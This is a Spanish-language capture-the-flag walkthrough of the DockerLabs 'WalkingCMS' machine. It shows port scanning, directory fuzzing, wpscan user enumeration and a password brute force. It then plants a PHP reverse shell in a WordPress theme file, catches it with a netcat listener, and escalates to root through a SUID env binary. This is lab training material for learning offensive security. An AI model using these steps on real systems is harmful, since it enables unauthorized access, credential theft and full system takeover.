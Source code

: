 # WalkingCMS

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bashPORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto el puertos 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Cómo únicamente tenemos el puerto 80 abierto vamoa a enumerar desde la página web. Mientras vamos a ver la web dejamos corriendo **gobuster** para ir haciendo fuzzing.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
```
```
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 10701]
/.php                 (Status: 403) [Size: 275]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/server-status        (Status: 403) [Size: 275]
Progress: 661680 / 661683 (100.00%)
===============================================================
Finished
===============================================================
```
Ya vemos con el fuzzing que se trata de un wordpress, vamos a ver la página web y enumeramos con **wpscan**.

![wordpress](https://github.com/TBrux/DOCKERLABS/assets/168732212/46ea7c22-9d71-45cf-a4ec-5278d3473d36)

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```
```
[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```
Encontramos el usuario **mario** y con ese usuario y con **wpscan** trataremos de hacer fuerza bruta a ver si podemos conseguir la contraseña.
```bash
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
```
```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                                                                   
Trying mario / badboy Time: 00:00:02 <                                                                                                                                                             > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love
```
Hemos encontrado la contraseña **love**, así que ahora comprobamos si tenemos acceso al panel de login para acceder con mario:love 
```bash
❯ gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html
```
```
❯ gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/wordpress/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/wp-login.php         (Status: 200) [Size: 6580]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?action=register]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
Vemos que tenemos acceso al panel de **/wp-admin** y que con las credenciales obtenidas tenemos acceso.

![wp-admin](https://github.com/TBrux/DOCKERLABS/assets/168732212/4a7c0e8f-c08e-48f8-81d0-9bce0d4eeb08)

## Explotación.
Cuando tenemos acceso a un panel de wordpress, lo primero que deberíamos hacer, es ir a ver si podemos modificar una página del tema y así poner nuestro código malicioso y de esta forma podemos obtener una reverse shell.

![indexphp](https://github.com/TBrux/DOCKERLABS/assets/168732212/9d40c2ea-2fe3-4989-b474-eb060b2b2526)

Ahora lo único que tenemos que hacer es modificar alguna de las páginas, en mi caso voy a modificar el index con una reverse shell en php que encontramos en [GITHUB](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Nos ponemos a la escucha en el puerto que hayamos indicado y nos dirigimos al recurso modificado.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
```
```bash
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=id
```
Y obtenemos acceso a la máquina con el usuario **www-data**.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 49278
Linux cf370cc70c6b 6.5.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.6-1kali1 (2023-10-09) x86_64 GNU/Linux
 15:22:54 up 42 min,  0 user,  load average: 0.30, 0.37, 0.52
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
Hacemos un tratamiento de la tty para trabajar más cómodamente.
```bash
$ script /dev/null -c bash
CTRL + Z
❯ stty -raw echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Escalada de privilegios.
Para la escaldad de privilegios vamos a buscar binarios con permisos SUID desde la raíz.
```bash
find / -perm -4000 2>/dev/null
```
```
www-data@cf370cc70c6b:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/umount
www-data@cf370cc70c6b:/$
```
Vemos que tenemos el binario **/usr/bin/env**, que si buscamos en [GTFOBins](https://gtfobins.github.io/gtfobins/env/) podemos ver que podemos utilizarlo para lanzarnos una shell con los permisos de **root**.
```bash
./usr/bin/env /bin/sh -p
```
```
www-data@cf370cc70c6b:/$ ./usr/bin/env /bin/sh -p
./usr/bin/env /bin/sh -p
# whoami
whoami
root
# 
```

